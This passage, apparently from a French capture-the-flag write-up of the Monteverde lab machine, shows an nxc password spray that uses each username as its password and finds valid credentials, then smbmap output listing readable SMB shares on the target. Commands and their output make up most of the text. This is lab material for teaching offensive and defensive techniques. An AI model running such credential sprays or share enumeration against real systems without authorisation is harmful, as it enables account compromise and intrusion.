 ### Password Spray
On tente un **password spray** avec "user == password" et on découvre les identifiants suivants:
- `SABatchJobs:SABatchJobs`
```bash
$ nxc smb 10.10.10.172 -u users.txt -p users.txt --continue-on-success --no-bruteforce
SMB   10.10.10.172 445 MONTEVERDE    [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\svc-ata:svc-ata STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\svc-bexec:svc-bexec STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\svc-netapp:svc-netapp STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\roleary:roleary STATUS_LOGON_FAILURE 
SMB   10.10.10.172 445 MONTEVERDE    [-] MEGABANK.LOCAL\smorgan:smorgan STATUS_LOGON_FAILURE
```

### 'user$' and 'azure_uploads' smb shares : READ ACCESS

Avec smbmap on trouve le share 'user$' et 'azure_uploads' accessibles en lecture :
```bash
smbmap -H "10.10.10.172" -u SABatchJobs -p SABatchJobs

 ________  ___   ___  _______   ___   ___    __   _______
   /"    )|"  \ /"  ||   _  "\ |"  \ /"  |  /""\    |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   | / \   (. |__) :)
   \___  \ /\  \/. ||:  \/   /\   \/. |   /' /\  \  |:  ____/
 __/  \   |: \.  |(|  _  \  |: \.  |  //  __'  \ (|  /
   /" \   :) |.  \ /:  ||: |_)  :)|.  \ /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/ \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
      https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                    
                                                    
[+] IP: 10.10.10.172:445	Name: MEGABANK.LOCAL   	Status: Authenticated
	Disk              	Permissions	Comment
	----              	-----------	-------
	ADMIN$           	NO ACCESS	Remote Admin
	azure_uploads          	READ ONLY	
	C$            	NO ACCESS	Default share
	E$            	NO ACCESS	Default share
	IPC$             	READ ONLY	Remote IPC
	NETLOGON            	READ ONLY	Logon server share 
	SYSVOL           	READ ONLY	Logon server share 
	users$           	READ ONLY
```
On remarque que azure_uploads est vide.
